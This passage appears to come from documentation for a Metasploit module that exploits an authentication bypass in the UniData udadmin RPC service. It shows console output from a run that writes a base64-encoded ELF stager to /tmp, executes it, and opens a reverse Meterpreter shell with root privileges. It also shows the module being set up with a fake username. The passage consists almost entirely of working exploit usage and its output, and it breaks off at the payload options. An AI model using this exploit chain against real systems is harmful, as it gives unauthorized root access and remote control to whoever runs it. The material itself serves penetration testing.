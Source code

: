 ```
  [*] 10.0.0.198:31438 - Connecting to UniRPC endpoint udadmin
  [*] 10.0.0.198:31438 - Authenticating to RPC service as :local: / root:0:1000
  [*] 10.0.0.198:31438 - Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAGgEAAAAAAAC8AQAAAAAAAAAQAAAAAAAAajlYDwVIhcB0CEgx/2o8WA8FBHAPBWo5WA8FSIXAdeox/2oJWJm2EEiJ1k0xyWoiQVpqB1oPBUiFwHhRagpBWVBqKViZagJfagFeDwVIhcB4O0iXSLkCABFcCgAAs1FIieZqEFpqKlgPBVlIhcB5JUn/yXQYV2ojWGoAagVIiedIMfYPBVlZX0iFwHnHajxYagFfDwVean5aDwVIhcB47f/m>>'/tmp/HPtZI.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/yeIHc' < '/tmp/HPtZI.b64' ; chmod +x '/tmp/yeIHc' ; '/tmp/yeIHc' ; rm -f '/tmp/yeIHc' ; rm -f '/tmp/HPtZI.b64'"]
  [*] 10.0.0.198:31438 - Sending OsCommand request
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (3045348 bytes) to 10.0.0.198
  [*] 10.0.0.198:31438 - Command Stager progress - 100.00% done (863/863 bytes)
  [*] Meterpreter session 1 opened (10.0.0.179:4444 -> 10.0.0.198:40552) at 2023-01-30 14:28:44 -0800

  meterpreter > getuid
  Server username: root
```

### Version 8.2.4 with invalid user

```
  msf6 > use exploit/linux/misc/unidata_udadmin_auth_bypass
  [*] Using configured payload linux/x64/meterpreter/reverse_tcp

  msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set LHOST 10.0.0.179
  LHOST => 10.0.0.179

  msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set RHOST 10.0.0.198
  RHOST => 10.0.0.198

  msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set VERBOSE true
  VERBOSE => true

  msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set UNIRPC_USERNAME fake
  UNIRPC_USERNAME => fake

  msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > show options

  Module options (exploit/linux/misc/unidata_udadmin_auth_bypass):

     Name             Current Setting  Required  Description
     ----             ---------------  --------  -----------
     RHOSTS           10.0.0.198       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
     RPORT            31438            yes       The target port (TCP)
     SRVHOST          0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
     SRVPORT          8080             yes       The local port to listen on.
     SSL              false            no        Negotiate SSL for incoming connections
     SSLCert                           no        Path to a custom SSL certificate (default is randomly generated)
     UNIRPC_GID       1000             yes       gid to authenticate with (must not be 0)
     UNIRPC_UID       0                yes       uid to authenticate with (must match the username)
     UNIRPC_USERNAME  fake             yes       Username to authenticate with (must match the uid)
     URIPATH                           no        The URI to use for this exploit (default is random)

  Payload options (linux/x64/meterpreter/reverse_tcp):
```